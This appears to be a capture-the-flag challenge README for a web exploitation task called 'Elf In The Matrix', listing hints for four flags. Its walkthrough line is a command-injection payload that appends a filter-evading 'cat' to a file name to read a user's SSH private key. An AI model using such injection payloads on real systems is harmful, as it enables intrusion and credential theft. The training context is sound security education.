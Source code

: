# Challenge Name: Elf In The Matrix
## Category
- Web Exploitation

## Description
There has been rumors that the LED Matrix hides some secrets, can you find thenm?
## Difficulty
- Flag 1 Easy
- Flag 2 Medium
- Flag 3 Hard
- Flag 4 Hard


## Hint(s)
- Flag 1: check the robots assembly line.
- Flag 2: how do blind people read? mayne the source code will tell you 
- Flag 2: did you check the response of the request?
- Flag 3: Dont pop a shell, be smart about it and find another way in.
- Flag 3: ${Have you heard of environemental variables?}
- Flag 4: Did you do your local enumeration?

## Walkthrough
#"pixel_art.json;cat${IFS}${PATH:0:1}home${PATH:0:1}elfie${PATH:0:1}.ssh${PATH:0:1}id_rsa" solution 

